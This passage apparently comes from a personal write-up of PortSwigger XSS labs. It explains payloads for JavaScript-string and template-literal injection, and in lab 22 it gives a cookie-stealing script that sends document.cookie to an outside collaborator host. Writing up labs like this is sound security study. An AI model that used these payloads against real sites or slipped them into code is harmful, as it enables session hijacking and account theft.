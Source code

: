 Now we just need to put alert(1) in place of hello. This is where the trick comes in which I wasn't aware about. We need to use the minus signs (in the words of chatGPT) so that javascript can coerce strings into numbers.

But first, I was making a mistake. There is no need to put a ) to close the track function. This is causing syntax errors. We must skip that.

![](/assets/images/XSS/Pasted%20image%2020250726195922.png)

Removing that ) and escaping the extra ' at the end with a &#x27; should solve this lab.

![](/assets/images/XSS/Pasted%20image%2020250726195902.png)

This is a particularly weird concept to get your head around. I don't know javascript so it is hard for me as well, however take a look at the screenshot below from the explanation I got from GPT, this cleared a lot of things for me and should help. We can see both, the failed payload as well as the working one. The difference in the colour should resolve any doubt.

![](/assets/images/XSS/Pasted%20image%2020250726200908.png)

### 21. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

Payload that worked:

```javascript
${alert(1)}
```

Methodology and explanation:

We start as usual by putting in a random string in search box. We can see that the message is between backticks \` \` . 

![](/assets/images/XSS/Pasted%20image%2020250726201718.png)

Upon looking up their significance, I saw that they can have 1. Multiline strings and 2. display a variable inside the string using ${variable name}. This is similar to f strings in python. We can just put the payload in the ${} and it should execute. 

### 22. Exploiting cross-site scripting to steal cookies

Payload that worked:

```html
<script>fetch('https://BURPID.oastify.com/?cookie=' + document.cookie);</script>
```

Methodology and explanation:

As always we first try to find a reflection point. The comments seemed to be reflected in a pair \<p\> tags. I tried putting in the alert(1) payload in script tags and it worked. 

![](/assets/images/XSS/Pasted%20image%2020250726232207.png)
